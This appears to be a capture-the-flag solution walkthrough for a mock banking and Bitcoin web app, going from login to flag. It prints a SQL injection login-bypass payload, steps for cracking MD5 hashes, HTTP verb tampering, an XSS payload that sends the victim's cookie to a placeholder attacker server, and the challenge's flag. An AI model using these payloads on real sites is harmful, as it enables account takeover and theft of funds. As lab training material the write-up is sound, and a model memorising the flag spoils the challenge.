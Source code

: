 ## Poulpy Solution

### Step 1
SQL injection in login field :

    1' or 1=1 -- -

Look at "set-cookie" in F12-Network on the login page loaded. Users database appears.

Crack all md5 password with your favorite tool (like John TheRipper). Only one is a weak password.

For the user "Alice", you find "azertyuiop".


### Step 2
Fuzzing to find the path "/security".
 
Connect to /security url. 

This path is only accessible with a POST request. 

Use HTTP verb tempering to modify the GET request on 
POST request (F12-Network, use Modify and resend to change GET into POST). 

You can see the authentification code in the response page.

Connect the login page with Alice:azertyuiop and the previous authentification code.

### Step 3
Alice has only 299.56138€. 

In Ledger, you see that the wallet "3MVLdLUTDx6qQHd9wwTnr5it1aoqwzMnjR" make many operations in XBT (Bitcoin).

Make a withdraw request to this wallet with any kind of amount but use the XSS flaw to inject javascript code and steal this owner cookie.

    <img src="test.jpg" onerror="this.src=`http://@serveur/cookie?=`+document.cookie;">

Connect to Bob with the stolen cookie. Bob has 0.33 (3374.70€) BTX.


### Step 4
Connect to Bob with the stolen cookie.

Make a deposit from Bob account to your own wallet.

    Flag : 48294e0ba97e1ff2b23ba6357c1b9880a3f600459ef89cd58013571b47e58797


